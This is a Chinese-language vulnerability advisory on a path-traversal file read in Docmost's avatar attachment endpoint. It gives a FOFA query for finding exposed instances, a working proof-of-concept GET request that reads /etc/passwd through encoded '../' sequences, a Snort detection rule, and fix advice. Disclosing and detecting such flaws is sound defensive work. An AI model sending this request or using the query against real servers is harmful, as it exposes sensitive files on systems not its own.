

# Docmost-img_avatar-任意文件读取

Docmost-img_avatar-任意文件读取，攻击者可进行读取系统内任意敏感信息。

# 影响版本

0.2.1-0.21.0

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：title="Docmost"

POC/EXP：

```
GET /api/attachments/img/avatar/..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
Host:127.0.0.1
```



sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"Docmost - /api/attachments/img/avatar 路径穿越任意文件读取";
    flow:to_server,established;
    http.method; content:"GET";
    http.uri;
        content:"/api/attachments/img/avatar/";
        fast_pattern;
    http.uri;
        content:"..%2F"; nocase;
    http.uri;
        content:"etc%2Fpasswd"; nocase;
    metadata:
        service http,
        affected_product "Docmost",
        vulnerability_type "Path Traversal / Arbitrary File Read",
        severity "high";
    classtype:web-application-attack;
    sid:1000743;
    rev:1;
    priority:1;
)
```

# 漏洞修复

关闭互联网暴露面或接口设置访问权限，升级至安全版本。
